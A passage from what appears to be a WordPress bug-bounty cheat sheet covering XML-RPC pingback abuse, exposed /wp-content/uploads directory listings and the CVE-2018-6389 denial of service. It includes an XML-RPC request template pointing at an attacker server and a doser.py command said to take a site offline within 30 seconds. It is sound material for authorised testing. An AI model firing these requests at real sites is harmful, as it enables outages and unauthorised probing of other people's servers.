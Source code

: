     <value><string>http://<YOUR SERVER >:<port></string></value>
    </param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
    </value></param></params>
    </methodCall>
    ```
### Tool To Automate XMLRPC-Scan.

[XMLRPC-Scan](https://github.com/nullfil3/xmlrpc-scan)

### References
[Bug Bounty Cheat Sheet](https://m0chan.github.io/2019/12/17/Bug-Bounty-Cheetsheet.html)

[Medium Writeup](https://medium.com/@the.bilal.rizwan/wordpress-xmlrpc-php-common-vulnerabilites-how-to-exploit-them-d8d3c8600b32)

[WpEngine Blog Post](https://wpengine.com/resources/xmlrpc-php/)

# Directory listing
Sometimes developers forget to disable the directory listing on /wp-content/uploads. So this is the common issue on wordpress sites.

### Detection
/wp-content/uploads

### Pro tip
Add this path to your fuzzing wordlist

### References
[H1 Report](https://hackerone.com/reports/201984)
[H1 Report](https://hackerone.com/reports/762118)
[H1 Report](https://hackerone.com/reports/789388)
[H1 Report](https://hackerone.com/reports/448985)

# CVE-2018-6389
This issue can down any Wordpress site under 4.9.3 So while reporting make sure that your target website is running wordpress under 4.9.3

### Detection
Use the URL from my gist called loadsxploit, you will get a massive js data in response.

[loadsxploit](https://gist.github.com/remonsec/4877e9ee2b045aae96be7e2653c41df9)

### Exploit
You can use any Dos tool i found Doser really fast and it shut down the webserver within 30 second

[Doser](https://github.com/quitten/doser.py)
```
python3 doser.py -t 999 -g 'https://site.com/fullUrlFromLoadsxploit'
```
### References
[H1 Report](https://hackerone.com/reports/752010)
